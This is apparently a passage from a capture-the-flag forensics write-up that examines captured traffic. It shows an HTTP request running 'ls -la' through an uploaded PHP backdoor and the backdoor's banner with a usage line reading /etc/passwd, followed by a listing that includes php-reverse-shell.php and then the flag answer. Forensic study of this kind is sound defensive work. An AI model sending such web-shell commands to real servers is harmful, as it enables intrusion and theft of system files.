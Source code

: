 There is a `ls -la` which has the following:

```
GET /uploads/678e2443a6725.php?cmd=ls%20-la HTTP/1.1
Host: 192.168.1.10
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,la;q=0.8
Cookie: XSRF-TOKEN=eyJpdiI6ImVpaFRpaHM0VHM3WVdTc1R6S3pLU2c9PSIsInZhbHVlIjoidTM2ZjJPeW5lMU9SOVMrRllkK1NJK1BiTTg3RDMrYmIzRDZPbkxWamhPWTRvOVh3TWdaQ21haEdmVmFzY3dSS2xiV3BhUmFXTVdXL2tpYVZyZ2hNV09OYnN6dVMwcHp6QXBBUjhielQwNnZudUtqaXVZQmxTd0pXeS9FTytlQWQiLCJtYWMiOiI3ZjZhOTJjNjdmNGRiMTYxNjcwZWFhMDE4MmE1ZDNmMDczNDE2MmFhZWQ1Mjk0MDMwNDU3YjViNTFkODM0ZjA5IiwidGFnIjoiIn0%3D; knightblog_session=eyJpdiI6IjRHZVk2cVhiaXRycFgwQVVxWjh0VHc9PSIsInZhbHVlIjoicXE5bEVab3NXbldmczlpd04yaGEwY25LZ2twT3ZyallBdW5DR0Evc3UyM3lYYWhwOU40VGsvV2VNeUR6RFdhRmJ0b0JXZEJyUjd4Ly9tL04yMWpFRG5sNzVhWjM2T0p2Um5xamVRSytrT1BFb094cE1Lc1VmM2EzVCtaZEhMOU4iLCJtYWMiOiJkN2UzNmNlZjFlOTA5NjUwZDkwODJhNGU0ODA5M2FhYjM3NmRkYTYxMTFmZmNhMTZmMGIyYWM3ZmRkZmVlNTkyIiwidGFnIjoiIn0%3D

HTTP/1.1 200 OK
Date: Mon, 20 Jan 2025 10:24:47 GMT
Server: Apache/2.4.62 (Rocky Linux)
X-Powered-By: PHP/8.2.27
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8

<!-- Simple PHP Backdoor By DK (One-Liner Version) -->
<!-- Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd -->
<pre>total 800
drwxr-xr-x. 2 apache apache   4096 Jan 20 16:24 .
drwxr-xr-x. 5 apache apache    120 Jan 19 17:34 ..
-rw-r--r--. 1 apache apache   5491 Jan 19 00:15 678befa776435.php
-rw-r--r--. 1 apache apache 111415 Jan 19 15:57 678ccc6eb27ff.jpeg
-rw-r--r--. 1 apache apache 225240 Jan 19 16:09 678ccf6614432.jpg
-rw-r--r--. 1 apache apache 225240 Jan 19 16:11 678ccfce06773.jpg
-rw-r--r--. 1 apache apache 111415 Jan 19 19:59 678d05534496e.jpeg
-rw-r--r--. 1 apache apache 111415 Jan 20 16:04 678e1fb3b6484.jpeg
-rw-r--r--. 1 apache apache    242 Jan 20 16:24 678e2443a6725.php
-rw-r--r--. 1 apache apache   5491 Jan 19 00:12 php-reverse-shell.php
</pre>
```

Flag: `KCTF{php-reverse-shell.php_Jan_19}`

### The Overseer (capture2.pcapng)

> What is the web-based server management tool that is used here?
